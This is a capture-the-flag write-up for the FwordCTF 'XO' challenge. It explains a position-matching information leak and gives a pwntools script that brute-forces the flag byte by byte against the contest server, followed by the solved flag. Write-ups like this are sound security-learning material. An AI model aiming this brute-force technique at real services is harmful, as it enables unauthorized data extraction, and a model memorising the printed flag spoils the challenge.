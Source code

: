 # XO 

Whatever we input, the binary searches for characters in our input that are the same as a character of the flag in the same position. It prints the number of characters before the first occurrence of this. For example, if the flag was FwordCTF{}, then...

Fgjehrfd -> 0
sws -> 1
gggg -> 4

Using this, we can run a simple byte by byte bruteforce in order to get the data in flag.txt -  `NuL1_Byt35?15_IT_the_END?Why_i_c4nT_h4ndl3_That!}`

Adding the flag format, we get the flag, `FwordCTF{NuL1_Byt35?15_IT_the_END?Why_i_c4nT_h4ndl3_That!}`

I used backticks for padding since they were pretty much guaranteed not to be in the flag - we can send backtick_padding + char and bruteforce "char" until the number returned equals the number of backticks, the character of the flag in that position would be the char where the server returned number is equal to the number of backticks.

```python
from pwn import *
import time
printable = "?_qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890!@#$%^&*(){},./<~\\"
host = ('xo.fword.wtf', 5554)
def getnum(string):
    while True:
        try:
            p = remote(*host)
            break
        except socket.gaierror:
            time.sleep(1)
    #p = process("./task")
    p.recvline()
    p.sendline(string)
    ans = int(p.recvline())
    p.close()
    return ans
flag = ''
i = len(flag)
while '}' not in flag:
    pad = '`'*i 
    for char in printable:
        totry = pad + char
        print(totry)
        if getnum(totry) == i:
            flag += char
            print(f"Flag: {flag}")
            break
    else:
        print(flag)
        quit()
    i += 1
 ```
    
 #### Flag: FwordCTF{NuL1_Byt35?15_IT_the_END?Why_i_c4nT_h4ndl3_That!}
